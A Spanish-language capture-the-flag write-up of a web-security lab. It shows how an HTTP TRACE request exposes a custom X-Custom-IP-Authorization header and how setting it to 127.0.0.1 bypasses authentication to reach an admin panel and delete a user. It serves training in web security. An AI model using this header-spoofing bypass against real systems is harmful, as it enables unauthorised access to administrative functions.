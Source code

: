 # Authentication bypass

> This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.
>
>  To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.
>
>  You can log in to your own account using the following credentials: `wiener:peter`

Si hacemos GET /admin vemos como esta solo accesible para los admins o para las ip locales.

Si usamos el HTTP **TRACE** obtenemos lo siguiente:

![](../../.gitbook/assets/imagen%20%28627%29.png)

```http
HTTP/1.1 200 OK
Content-Type: message/http
Connection: close
Content-Length: 853

TRACE /admin HTTP/1.1
Host: ac181f001e186d2d80062eab00b30088.web-security-academy.net
Cookie: session=nieLM2KCUFO2iEbBtR4jR8Es7NretfAS
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Referer: https://ac181f001e186d2d80062eab00b30088.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: es-ES,es;q=0.9
Connection: close
X-Custom-IP-Authorization: 186.54.60.157
```

Ver esa **x-custom-ip** tiene nuestra IP. Es usada para determinar que nuestra request viene de una red local o publica.

Vamos a "Proxy" &gt; "Options" &gt; "Match and Replace" y le damos add. No hay condicion de match pero en replace hacemos `X-Custom-IP-Authorization: 127.0.0.1` listo en este header estamos en una red interna

 Entramos a la zona de admins y borramos a carlos.









![](../../.gitbook/assets/imagen%20%28629%29.png)

